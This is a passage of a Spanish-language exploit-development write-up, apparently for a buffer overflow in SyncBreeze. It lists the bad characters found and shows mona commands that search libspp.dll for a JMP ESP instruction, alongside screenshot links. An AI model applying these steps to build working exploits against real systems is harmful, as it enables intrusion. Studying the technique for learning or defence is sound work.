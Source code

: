 ![eip2](../assets/imgs/synb/eip2.png)

## Encontrar badchars

```
\x00\x0a\x0d\x25\x26\x2b\x3d
```

----

## Buscar el módulo adecuado

```
!mona modules
```

![modules](../assets/imgs/synb/modules.png)

```
!mona find -s "\xff\xe4" -m libspp.dll
```

![dll](../assets/imgs/synb/dll.png)
